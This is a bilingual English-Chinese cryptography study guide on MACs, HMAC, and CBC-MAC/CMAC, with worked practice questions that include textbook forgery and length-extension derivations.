
In (a) the message travels in clear: authentication without confidentiality. Adding encryption needs a second key. In (b) the sender computes \(E(K_2,[M\Vert\mathrm{MAC}(K_1,M)])\), so authentication is tied to the plaintext. In (c) the sender computes \(E(K_2,M)\Vert\mathrm{MAC}(K_1,E(K_2,M))\), which authenticates the ciphertext. Section 12.5 compares the orders.在 (a) 中，消息以明文传输：有认证但没有保密性。若要加密，需要第二个密钥。在 (b) 中，发送方计算 \(E(K_2,[M\Vert\mathrm{MAC}(K_1,M)])\)，因此认证与明文绑定。在 (c) 中，发送方计算 \(E(K_2,M)\Vert\mathrm{MAC}(K_1,E(K_2,M))\)，它认证的是密文。第 12.5 节比较了这几种顺序。
Symmetric encryption also authenticates, yet a MAC is preferred in these cases (list of six).对称加密同样能提供认证，但在下列六种情形中仍首选 MAC（列表如下）。
- Broadcast: one designated system verifies each plaintext message and raises an alarm.广播：由一个指定系统验证每条明文消息，并在出错时报警。
- A heavily loaded receiver checks only randomly chosen messages.负载很重的接收方只检查随机选中的消息。
- A plaintext program is verified whenever needed, without decrypting it on every run.明文程序需要时才验证，而不必每次运行都解密。
- Authentication without secrecy is wanted (SNMPv3 commands).需要认证但不需要保密（SNMPv3 命令）。
- Authentication and confidentiality are placed in different layers.认证与保密放在不同的层中实现。
- Protection must outlast reception: a stored MAC can be re-checked after decryption.保护必须能持续到接收之后：存储下来的 MAC 可以在解密之后再次校验。
Step 2: MAC, hash code and signature第 2 步：MAC、哈希码和签名
In words: a hash has no key, a MAC has one shared key, a signature has a key pair; only the signature stops the sender from denying the message.用文字表述：哈希没有密钥，MAC 有一把共享密钥，签名有一对密钥；只有签名能阻止发送方否认消息。
A MAC is not a digital signature. Sender and receiver share \(K\), so either of them could have made the tag. The sender can claim that the receiver forged it.MAC 不是数字签名。发送方和接收方共享 \(K\)，因此任何一方都可能产生了标签。发送方可以声称是接收方伪造了标签。
| Hash code散列码 | MAC | Digital signature数字签名 | |
|---|---|---|---|
| Key密钥 | none无 | one shared secret key一把共享的秘密密钥 | private key signs, public key verifies私钥签名，公钥验证 |
| Who can create it谁可以生成 | anyone任何人 | either key holder任一密钥持有者 | only the private-key holder仅私钥持有者 |
| Integrity完整性 | only if the hash is protected仅当散列值受保护时 | yes是 | yes是 |
| Origin authentication来源认证 | no否 | yes, between key holders是，在密钥持有者之间 | yes, to anyone是，对任何人 |
| Non-repudiation不可否认性 | no否 | no否 | yes是 |
Step 3: requirements第 3 步：要求
Assume the opponent knows the MAC function but not \(K\). A MAC should satisfy three requirements.假设对手知道 MAC 函数但不知道 \(K\)。一个 MAC 应满足三个要求。
- Given \(M\) and \(\mathrm{MAC}(K,M)\), it is computationally infeasible to construct \(M'\ne M\) with \(\mathrm{MAC}(K,M')=\mathrm{MAC}(K,M)\).在已知 \(M\) 和 \(\mathrm{MAC}(K,M)\) 的情况下，构造满足 \(\mathrm{MAC}(K,M')=\mathrm{MAC}(K,M)\) 的 \(M'\ne M\) 在计算上是不可行的。
- The tag is uniformly distributed: for random \(M\) and \(M'\), \(\Pr[\mathrm{MAC}(K,M)=\mathrm{MAC}(K,M')]=2^{-n}\), with \(n\) the tag length in bits. A chosen-message search for a given tag then needs on average \(2^{n-1}\) trials.标签应均匀分布：对于随机的 \(M\) 和 \(M'\)，有 \(\Pr[\mathrm{MAC}(K,M)=\mathrm{MAC}(K,M')]=2^{-n}\)，其中 \(n\) 为标签长度（比特）。这样，对给定标签进行选择消息搜索，平均需要 \(2^{n-1}\) 次尝试。
- No part of the message is weaker than another: for \(M'=f(M)\), where \(f\) is any change such as flipping chosen bits, the same probability \(2^{-n}\) holds.消息的任何部分都不比其他部分更弱：对于 \(M'=f(M)\)，其中 \(f\) 是任意改动（例如翻转所选比特），同样的概率 \(2^{-n}\) 成立。
Step 4: brute-force attacks第 4 步：暴力攻击
In words: an attacker can search for the key or guess the tag; neither can be done offline, because both need message-tag pairs.用文字表述：攻击者可以搜索密钥或猜测标签；这两者都不能离线进行，因为两者都需要消息-标签对。
The security goal is computation resistance（计算抗性）: given one or more pairs \([x_i,\mathrm{MAC}(K,x_i)]\), it is infeasible to compute any pair \([x,\mathrm{MAC}(K,x)]\) for a new \(x\ne x_i\). A hash collision can be searched offline, because the algorithm is public (about \(2^{n/2}\) evaluations, Section 11.3). Without \(K\) an attacker cannot compute tags, so a MAC attack needs real message-tag pairs.安全目标是计算抗性：给定一个或多个对 \([x_i,\mathrm{MAC}(K,x_i)]\)，要为一个新的 \(x\ne x_i\) 计算出任一对 \([x,\mathrm{MAC}(K,x)]\)，在计算上是不可行的。哈希碰撞可以离线搜索，因为算法是公开的（约需 \(2^{n/2}\) 次求值，第 11.3 节）。若没有 \(K\)，攻击者就无法计算标签，因此对 MAC 的攻击需要真实的消息-标签对。
Attack the key. With a known pair \((M_1,T_1)\) the attacker computes \(\mathrm{MAC}(K_i,M_1)\) for all \(2^k\) keys. If \(k>n\), about \(2^{k-n}\) wrong keys also give \(T_1\). The attacker then tests the survivors on a second pair, and so on.攻击密钥。 用一个已知的对 \((M_1,T_1)\)，攻击者对所有 \(2^k\) 个密钥计算 \(\mathrm{MAC}(K_i,M_1)\)。若 \(k>n\)，则大约有 \(2^{k-n}\) 个错误的密钥也会给出 \(T_1\)。然后攻击者在第二个对上检验留下的候选密钥，依此类推。
Attack the tag. The attacker may instead forge a tag for a chosen message, or find a message for a given tag. The effort is about \(2^n\), like attacking the one-way or weak-collision property of a hash. This also needs chosen message-tag pairs or the key.攻击标签。 攻击者也可以对选定的消息伪造标签，或为给定的标签找到一条消息。其代价约为 \(2^n\)，与攻击哈希的单向性或弱碰撞性相当。这同样需要选定的消息-标签对，或者需要密钥。
An ideal MAC needs cryptanalytic effort at least equal to this brute-force effort.理想的 MAC 所需的密码分析代价，至少应等于这一暴力攻击的代价。
Practice练习
Q1. (Calculation) A MAC has a 96-bit key and a 40-bit tag. (a) About how many keys remain consistent after 1, 2 and 3 known message–tag pairs? (b) How many pairs identify the key? (c) Which brute-force attack is cheapest, and what does that say about the design?Q1.（计算）某 MAC 使用 96 位密钥和 40 位标签。(a) 在 1 个、2 个和 3 个已知消息-标签对之后，大约还有多少个密钥与之一致？(b) 需要多少对才能确定密钥？(c) 哪一种穷举攻击最便宜？这对设计说明了什么？
Answer
(a) \(2^{96-40}=2^{56}\), then \(2^{96-80}=2^{16}\), then \(2^{96-120}=2^{-24}<1\). (b) Three pairs (\(\lceil96/40\rceil=3\)); after the third only the true key is expected to remain. (c) \(\min(2^{96},2^{40})=2^{40}\): once the attacker can submit messages for verification, guessing a tag takes about \(2^{40}\) attempts (\(2^{39}\) on average). The 40-bit tag, not the 96-bit key, limits the strength, and the design violates \(\min(k,n)\ge128\).(a) \(2^{96-40}=2^{56}\)，然后 \(2^{96-80}=2^{16}\)，再然后 \(2^{96-120}=2^{-24}<1\)。(b) 三对（\(\lceil96/40\rceil=3\)）；第三对之后，预期只剩下真实密钥。(c) \(\min(2^{96},2^{40})=2^{40}\)：一旦攻击者能够提交消息供验证，猜测标签约需 \(2^{40}\) 次尝试（平均 \(2^{39}\) 次）。限制安全强度的是 40 位标签，而非 96 位密钥，并且该设计违反了 \(\min(k,n)\ge128\)。
思路：先算每轮剩余密钥 \(2^{k-rn}\)，再比较 \(2^k\) 与 \(2^n\)。
Q2. (Trace) In the weak MAC of the example (8-bit blocks, tag \(E(K,\Delta(M))\)) the opponent sees \(M=(\text{1F},\text{A2},\text{57})\) and its tag. Forge a different message with the same tag whose first two blocks are FF and 01.Q2.（手工演算）在示例中的弱 MAC（8 位分组，标签为 \(E(K,\Delta(M))\)）里，对手看到了 \(M=(\text{1F},\text{A2},\text{57})\) 及其标签。伪造一条与之标签相同的不同消息，其前两个分组为 FF 和 01。
Answer
\(\Delta(M)=\text{1F}\oplus\text{A2}\oplus\text{57}=\text{EA}\). The third block must be \(Y_3=\text{FF}\oplus\text{01}\oplus\text{EA}=\text{14}\). Check: \(\text{FF}\oplus\text{01}\oplus\text{14}=\text{EA}\). So \((\text{FF},\text{01},\text{14})\) has the same \(\Delta\), hence the same tag, and the opponent never used \(K\). This violates requirement 1; any linear (XOR) structure in a MAC invites such forgeries.\(\Delta(M)=\text{1F}\oplus\text{A2}\oplus\text{57}=\text{EA}\)。第三个分组必须为 \(Y_3=\text{FF}\oplus\text{01}\oplus\text{EA}=\text{14}\)。验证：\(\text{FF}\oplus\text{01}\oplus\text{14}=\text{EA}\)。因此 \((\text{FF},\text{01},\text{14})\) 具有相同的 \(\Delta\)，从而具有相同的标签，而对手从未使用 \(K\)。这违反了要求 1；MAC 中任何线性（异或）结构都会招致此类伪造。
Q3. (Explain) (a) Why does a MAC not give non-repudiation? (b) Give two situations in which a MAC is preferable to encrypting the message.Q3.（解释）(a) 为什么 MAC 不能提供不可否认性？(b) 举出两种 MAC 比加密消息更为适宜的情形。
Answer
(a) Sender and receiver share \(K\), so a valid tag shows only that one of the two key holders made it. The sender can claim the receiver forged it; a digital signature (private key) is needed. (b) Any two of: broadcast with a single verifier; a heavily loaded receiver that checks a random sample; authenticating a plaintext program without decrypting it on every run; SNMPv3-style management where integrity matters but secrecy does not.(a) 发送方和接收方共享 \(K\)，因此有效标签仅能表明两个密钥持有者中的某一方生成了它。发送方可以声称是接收方伪造了该消息；因此需要数字签名（私钥）。(b) 以下任选两项：单一验证者的广播；负载繁重、只检查随机样本的接收方；无需在每次运行时解密即可认证明文程序；以及 SNMPv3 式的管理，即完整性重要而机密性不重要的场景。
HMAC: A MAC from a Hash Function ★★★HMAC：基于散列函数的 MAC
Goal. Write the HMAC formula and its seven steps. Count compression-function calls. Explain why HMAC is secure when the hash has collisions, and why \(H(K\Vert M)\) is not used.目标。 写出 HMAC 公式及其七个步骤。统计压缩函数的调用次数。解释为什么即使哈希有碰撞，HMAC 仍然是安全的，以及为什么不用 \(H(K\Vert M)\)。
Step 1: why HMAC and what it must achieve第 1 步：为什么要用 HMAC，它必须达到什么目标
In words: HMAC = an existing hash function with a key mixed in, used as a black box.用文字表述：HMAC = 把一个现有的哈希函数当作黑盒使用，并把密钥混入其中。
A hash such as SHA has no key and was not designed as a MAC. HMAC（基于哈希的消息认证码）builds a key into an existing hash. Hashes run faster in software than block ciphers, and library code is widely available. HMAC is RFC 2104 and FIPS 198. It is the mandatory-to-implement MAC for IPsec and is used in TLS.像 SHA 这样的哈希没有密钥，设计时也不是作为 MAC 使用的。HMAC（基于哈希的消息认证码）把密钥融入现有的哈希中。哈希在软件中比分组密码运行得更快，而且库代码广泛可用。HMAC 见 RFC 2104 和 FIPS 198。它是 IPsec 必须实现的 MAC，也用于 TLS。
RFC 2104 lists five objectives.RFC 2104 列出了五个目标。
- Use available hash functions without modification.不加修改地使用现有的哈希函数。
- Allow easy replacement of the embedded hash, for example SHA-2 by SHA-3.便于替换内嵌的哈希，例如把 SHA-2 换成 SHA-3。
- Preserve the performance of the hash.保持哈希的性能。
- Handle keys simply.简单地处理密钥。
- Have a well-understood analysis, based on reasonable assumptions about the hash.分析清晰，并基于关于哈希的合理假设。
The last objective is the main advantage over other hash-based schemes. HMAC can be proved secure if the embedded hash has reasonable strength.最后一个目标是它相对于其他基于哈希的方案的主要优势。只要内嵌哈希具有合理的强度，就可以证明 HMAC 是安全的。
Step 2: the algorithm第 2 步：算法
In words: hash the key block (XOR ipad) followed by the message, then hash the key block (XOR opad) followed by that result.用文字表述：先对（密钥块与 ipad 异或）后接消息做哈希，再对（密钥块与 opad 异或）后接上一步的结果做哈希。


For long messages HMAC takes about the time of the embedded hash. It adds three compression calls: one for \(S_i\), one for \(S_o\) and one for the block that holds the inner hash result. If the states after \(S_i\) and \(S_o\) are computed once per key and stored, only one extra call remains. This pays off for short messages.对长消息，HMAC 的耗时约等于内嵌哈希的耗时。它额外增加三次压缩调用：一次用于 \(S_i\)，一次用于 \(S_o\)，一次用于容纳内层哈希结果的块。如果 \(S_i\) 和 \(S_o\) 之后的状态按密钥算好并保存起来，则只剩一次额外调用。这对短消息有利。
Step 3: why HMAC stays secure, and why not H(K || M)第 3 步：为什么 HMAC 是安全的，以及为什么不用 H(K || M)
In words: an attacker against HMAC cannot compute any tag without the key, so the offline collision search that breaks a plain hash does not apply.用文字表述：攻击者在不知道密钥的情况下无法算出任何标签，因此破坏普通哈希的离线碰撞搜索对 HMAC 不适用。
The designers proved that a successful attack on HMAC is as hard as one of two things.设计者证明：成功攻击 HMAC 与下面两件事之一一样困难。
- Computing the output of the compression function when the starting value is random, secret and unknown. This is brute force on the secret state, about \(2^n\), or a birthday attack.当起始值是随机、秘密且未知时，计算压缩函数的输出。这相当于对秘密状态的暴力攻击，代价约为 \(2^n\)，或者是生日攻击。
- Finding collisions in the hash when the starting value is random and secret. This is the birthday attack, about \(2^{n/2}\) evaluations (Section 11.3).当起始值是随机且秘密时，寻找哈希的碰撞。这就是生日攻击，代价约为 \(2^{n/2}\) 次求值（第 11.3 节）。
MD5 therefore remains tolerable inside HMAC, although its collisions can be found with about \(2^{64}\) work. Against MD5 itself the attacker hashes offline, because algorithm and initial value are public. Against HMAC the attacker must observe about \(2^{64}\) blocks, about \(2^{72}\) bits, produced under one key. On a 1 Gbps link this takes \(2^{72}/10^9\approx4.7\times10^{12}\) s, roughly 150,000 years without a key change.因此 MD5 在 HMAC 中仍可以接受，尽管找到它的碰撞需要约 \(2^{64}\) 的工作量。对 MD5 本身，攻击者可以离线计算哈希，因为算法和初始值都是公开的。对 HMAC，攻击者必须观察在同一密钥下产生的约 \(2^{64}\) 个块，约 \(2^{72}\) 比特。在 1 Gbps 链路上这需要 \(2^{72}/10^9\approx4.7\times10^{12}\) 秒，在不更换密钥的情况下大约需要 15 万年。
Why not \(H(K\Vert M)\). A Merkle-Damgård hash (MD5, SHA-1, SHA-2) outputs its internal state. From \(H(K\Vert M)\) and the length of \(K\Vert M\), an attacker computes the padding \(p\), continues hashing and obtains a valid tag for \(M\Vert p\Vert M'\) without \(K\). This is length extension. The other order, \(H(M\Vert K)\), allows offline collisions: if \(H(M)=H(M')\) then \(H(M\Vert K)=H(M'\Vert K)\) for every \(K\). HMAC's keyed outer hash on a fixed-length input defeats both.为什么不用 \(H(K\Vert M)\)。 Merkle-Damgård 哈希（MD5、SHA-1、SHA-2）会输出其内部状态。攻击者由 \(H(K\Vert M)\) 以及 \(K\Vert M\) 的长度，可以算出填充 \(p\)，继续做哈希，从而在没有 \(K\) 的情况下获得 \(M\Vert p\Vert M'\) 的有效标签。这就是长度扩展。另一种顺序 \(H(M\Vert K)\) 则允许离线碰撞：若 \(H(M)=H(M')\)，则对每个 \(K\) 都有 \(H(M\Vert K)=H(M'\Vert K)\)。HMAC 在定长输入上的外层密钥哈希能同时防御这两种攻击。
Practice练习
Q1. (Calculation) HMAC-SHA-256 (\(b=512\), \(n=256\)) uses a 20-byte key whose bytes are all 0x0B. (a) How many zero bytes pad the key? (b) Give \(S_i\) and \(S_o\). (c) For a 40-byte message, how many compression calls does HMAC need with and without precomputation, compared with plain SHA-256?Q1.（计算）HMAC-SHA-256（\(b=512\)，\(n=256\)）使用 20 字节的密钥，每个字节均为 0x0B。(a) 需要用多少个零字节填充密钥？(b) 给出 \(S_i\) 与 \(S_o\)。(c) 对于 40 字节的消息，HMAC 在使用与不使用预计算时各需要多少次压缩函数调用？并与普通 SHA-256 进行比较。
Answer
(a) \((512-160)/8=44\) zero bytes, so \(K^+\) is 20 bytes 0x0B followed by 44 bytes 0x00. (b) \(S_i=K^+\oplus\text{ipad}\): the first 20 bytes are \(\text{0B}\oplus\text{36}=\text{3D}\) and the other 44 are 0x36. \(S_o=K^+\oplus\text{opad}\): the first 20 bytes are \(\text{0B}\oplus\text{5C}=\text{57}\) and the other 44 are 0x5C. (c) \(320+65\le512\), so the padded message is one block, \(L=1\). Plain SHA-256: 1 call; HMAC: \(L+3=4\); with precomputed states: \(L+1=2\).(a) \((512-160)/8=44\) 个零字节，因此 \(K^+\) 为前 20 字节的 0x0B 后接 44 个 0x00 字节。(b) \(S_i=K^+\oplus\text{ipad}\)：前 20 字节为 \(\text{0B}\oplus\text{36}=\text{3D}\)，其余 44 字节为 0x36。\(S_o=K^+\oplus\text{opad}\)：前 20 字节为 \(\text{0B}\oplus\text{5C}=\text{57}\)，其余 44 字节为 0x5C。(c) \(320+65\le512\)，因此填充后的消息为一个分组，\(L=1\)。普通 SHA-256：1 次调用；HMAC：\(L+3=4\) 次；使用预计算状态时：\(L+1=2\) 次。
Q2. (Explain) Collisions in MD5 can be found with about \(2^{64}\) offline work. Why does this not break HMAC-MD5 at the same cost?Q2.（解释）在 MD5 中，约需 \(2^{64}\) 的离线计算即可找到碰撞。为什么这并不会以同样的代价破坏 HMAC-MD5？
Answer
A collision search on plain MD5 is offline because algorithm and IV are public. In HMAC the inner hash is keyed through \(K^+\oplus\text{ipad}\) and the outer hash through \(K^+\oplus\text{opad}\), so the attacker cannot compute any message–tag pair without \(K\). The birthday attack must instead use about \(2^{64}\) blocks (\(\approx2^{72}\) bits) observed under one key. At 1 Gbps this needs \(2^{72}/10^9\approx4.7\times10^{12}\) s, about 150,000 years. HMAC's security therefore degrades much more slowly than the hash's collision resistance.对普通 MD5 的碰撞搜索可以离线进行，因为算法和 IV 都是公开的。在 HMAC 中，内层散列通过 \(K^+\oplus\text{ipad}\) 带有密钥，外层散列通过 \(K^+\oplus\text{opad}\) 带有密钥，因此攻击者在没有 \(K\) 的情况下无法计算任何消息-标签对。生日攻击则必须在同一密钥下观察约 \(2^{64}\) 个分组（\(\approx2^{72}\) 位）。在 1 Gbps 的链路上，这需要 \(2^{72}/10^9\approx4.7\times10^{12}\) 秒，约 15 万年。因此，HMAC 的安全性下降速度远慢于该散列函数的抗碰撞性。
Q3. (Beyond the text) Why is \(\mathrm{MAC}(K,M)=H(K\Vert M)\) insecure for SHA-256, and why does HMAC avoid the problem?Q3.（超出教材范围）为什么 \(\mathrm{MAC}(K,M)=H(K\Vert M)\) 对 SHA-256 不安全？HMAC 又为何能够避免该问题？
Answer
SHA-256 outputs its chaining state after the padded last block. Given \(T=H(K\Vert M)\) and the length of \(K\Vert M\) (the attacker may guess the key length), the attacker computes the padding \(p\) and resumes hashing from \(T\) with extra data \(M'\). The result is \(H(K\Vert M\Vert p\Vert M')\), a valid tag for the new message \(M\Vert p\Vert M'\), obtained without \(K\). In HMAC the inner result is hashed once more under the secret block \(K^+\oplus\text{opad}\), so extending the inner hash gives no usable tag, and the outer input has fixed length.SHA-256 在填充后的最后一个分组之后输出其链接状态。已知 \(T=H(K\Vert M)\) 以及 \(K\Vert M\) 的长度（攻击者可以猜测密钥长度），攻击者即可计算出填充 \(p\)，并从 \(T\) 处继续散列附加数据 \(M'\)。结果 \(H(K\Vert M\Vert p\Vert M')\) 即为新消息 \(M\Vert p\Vert M'\) 的有效标签，而攻击者无需 \(K\)。在 HMAC 中，内层结果还要在秘密分组 \(K^+\oplus\text{opad}\) 的作用下再散列一次，因此扩展内层散列无法得到可用的标签，而且外层输入的长度是固定的。
思路：长度扩展攻击，外层带密钥的哈希挡住了它。
Block-Cipher MACs: DAA and CMAC ★★基于分组密码的 MAC：DAA 与 CMAC
Goal. Describe CBC-MAC (DAA) and forge a tag when message lengths vary. Compute the CMAC subkeys and say which one is used.目标。 描述 CBC-MAC（DAA），并在消息长度可变时伪造标签。计算 CMAC 的子密钥，并说明使用哪一个。
Step 1: the Data Authentication Algorithm第 1 步：数据认证算法
In words: DAA = encrypt the message in CBC mode with a zero starting value and keep the last ciphertext block as the tag.用文字表述：DAA = 以零为起始值用 CBC 模式加密消息，并把最后一个密文块作为标签。
The Data Authentication Algorithm（数据认证算法）(DAA; FIPS 113, ANSI X9.17, now obsolete) is DES in CBC mode with a zero initialisation vector (IV). It is also called CBC-MAC. The data are split into 64-bit blocks \(D_i\) for \(i=1,\dots,N\), and the last block \(D_N\) is padded on the right with zeros. Then \(O_1=E(K,D_1)\) and \(O_i=E(K,[D_i\oplus O_{i-1}])\) for \(i=2,\dots,N\), where \(O_i\) is the output after block \(i\). The tag is \(O_N\) or its leftmost \(M\) bits, with \(16\le M\le64\).数据认证算法（DAA；FIPS 113、ANSI X9.17，现已过时）是以零初始向量（IV）运行 CBC 模式的 DES。它也称为 CBC-MAC。数据被切成 64 比特的块 \(D_i\)，供 \(i=1,\dots,N\) 使用，最后一块 \(D_N\) 在右侧补零。然后对 \(i=2,\dots,N\) 计算 \(O_1=E(K,D_1)\) 和 \(O_i=E(K,[D_i\oplus O_{i-1}])\)，其中 \(O_i\) 是第 \(i\) 块之后的输出。标签是 \(O_N\) 或其最左边的 \(M\) 比特，其中 \(16\le M\le64\)。
DAA is secure only if all messages have one fixed length. Suppose the adversary knows the tag \(T=\mathrm{MAC}(K,X)\) of a one-block message \(X\). Then the two-block message \(X\Vert(X\oplus T)\) has the same tag: \(O_1=T\) and \(O_2=E(K,(X\oplus T)\oplus T)=E(K,X)=T\). Zero padding also cannot tell a short message from the same message followed by zeros.只有当所有消息长度固定时，DAA 才是安全的。设对手知道单块消息 \(X\) 的标签 \(T=\mathrm{MAC}(K,X)\)。那么两块消息 \(X\Vert(X\oplus T)\) 具有相同的标签：\(O_1=T\) 且 \(O_2=E(K,(X\oplus T)\oplus T)=E(K,X)=T\)。零填充也无法区分一条短消息与同一消息后接零。
Step 2: CMAC第 2 步：CMAC
In words: CMAC = CBC-MAC whose last block is first XORed with a secret subkey, K1 if the block is complete and K2 if it was padded.用文字表述：CMAC = CBC-MAC，其最后一块先与一个秘密子密钥异或：若该块完整则用 K1，若经过填充则用 K2。
CMAC（基于分组密码的消息认证码）(cipher-based MAC, NIST SP 800-38B) removes the fixed-length limit. It works with AES (block size \(b=128\) bits) and triple DES (\(b=64\) bits).CMAC（基于分组密码的 MAC，NIST SP 800-38B）去除了定长的限制。它可用于 AES（分组大小为 \(b=128\) 比特）和三重 DES（\(b=64\) 比特）。


How to do it by hand: 1. Compute \(L=E(K,0^b)\). 2. Shift \(L\) left by one bit. If the bit shifted out was 1, XOR the constant. The result is \(K_1\). 3. Do the same to \(K_1\) to get \(K_2\). 4. Count the blocks. A last block that is full takes \(K_1\). A shorter last block is padded with 10…0 and takes \(K_2\).手工做法：1. 计算 \(L=E(K,0^b)\)。2. 把 \(L\) 左移一位。若移出的比特为 1，则异或常数。结果为 \(K_1\)。3. 对 \(K_1\) 做同样的运算，得到 \(K_2\)。4. 统计块数。最后一块若是满的，取 \(K_1\)；若较短，则用 10…0 补齐，取 \(K_2\)。
The secret mask on the last block stops the extension attack. A known tag cannot be extended or spliced. Different subkeys for complete and padded messages keep the two cases apart. The cost is \(n\) cipher calls plus one to derive the subkeys.最后一块上的秘密掩码能防止扩展攻击。已知的标签既不能被扩展，也不能被拼接。对完整消息和经过填充的消息使用不同的子密钥，可以把这两种情况区分开。代价是 \(n\) 次密码调用，外加一次用于推导子密钥的调用。
Practice练习
Q1. (Trace) With CBC-MAC and zero IV, the attacker learns \(T=\mathrm{MAC}(K,X)\) for one block \(X\). Produce a valid message–tag pair for a two-block message without \(K\). Why does the same trick fail against CMAC?Q1.（手工演算）在零 IV 的 CBC-MAC 中，攻击者得知单分组消息 \(X\) 的 \(T=\mathrm{MAC}(K,X)\)。在不知道 \(K\) 的情况下，构造一个两分组消息的有效消息-标签对。为什么同样的技巧对 CMAC 失效？
Answer
Take \(X\Vert(X\oplus T)\). Then \(O_1=E(K,X)=T\) and \(O_2=E(K,(X\oplus T)\oplus O_1)=E(K,X)=T\), so the pair \((X\Vert(X\oplus T),T)\) is valid. In CMAC the one-block tag is \(T=E(K,X\oplus K_1)\), but the first chaining value of the two-block message is \(C_1=E(K,X)\ne T\). The cancellation therefore fails, and the attacker cannot compute the real tag because \(K_1\) and \(K\) are unknown.取 \(X\Vert(X\oplus T)\)。然后 \(O_1=E(K,X)=T\) 与 \(O_2=E(K,(X\oplus T)\oplus O_1)=E(K,X)=T\)，因此数对 \((X\Vert(X\oplus T),T)\) 有效。在 CMAC 中，单分组的标签为 \(T=E(K,X\oplus K_1)\)，而两分组消息的第一个链接值则为 \(C_1=E(K,X)\ne T\)。因此这种抵消不成立，攻击者也无法计算真实标签，因为 \(K_1\) 和 \(K\) 均未知。
Q2. (Calculation) Triple-DES CMAC (\(b=64\), constant 0x1B) has \(L=E(K,0^{64})=\text{4A7F13C5D2E8B069}\). Compute \(K_1\) and \(K_2\). Which subkey is used for a 24-byte and for a 21-byte message, and how many cipher calls does the 21-byte message need?Q2.（计算）三重 DES CMAC（\(b=64\)，常数 0x1B）具有 \(L=E(K,0^{64})=\text{4A7F13C5D2E8B069}\)。计算 \(K_1\) 与 \(K_2\)。对 24 字节消息和 21 字节消息分别使用哪个子密钥？21 字节消息需要多少次密码调用？
Answer
The leading bit of \(L\) is 0 (0x4A), so \(K_1=L\ll1=\text{94FE278BA5D160D2}\). Its leading bit is 1, so \(K_1\ll1=\text{29FC4F174BA2C1A4}\) and \(K_2=\text{29FC4F174BA2C1A4}\oplus\text{1B}=\text{29FC4F174BA2C1BF}\). Blocks are 8 bytes. A 24-byte message is 3 complete blocks, so it uses \(K_1\). A 21-byte message has 3 blocks with 5 bytes in the last; that block is padded with 10…0 and uses \(K_2\). It needs 3 cipher calls plus 1 to derive \(L\), so 4.\(L\) 的首位为 0（0x4A），因此 \(K_1=L\ll1=\text{94FE278BA5D160D2}\)。其首位为 1，因此 \(K_1\ll1=\text{29FC4F174BA2C1A4}\) 与 \(K_2=\text{29FC4F174BA2C1A4}\oplus\text{1B}=\text{29FC4F174BA2C1BF}\)。分组为 8 字节。24 字节消息包含 3 个完整分组，因此使用 \(K_1\)。21 字节消息有 3 个分组，最后一个分组含 5 字节；该分组以 10…0 填充，并使用 \(K_2\)。它需要 3 次密码调用，外加 1 次用于导出 \(L\)，共 4 次。
Authenticated Encryption: Composition, CCM, GCM and OCB ★★认证加密：组合方式、CCM、GCM 与 OCB
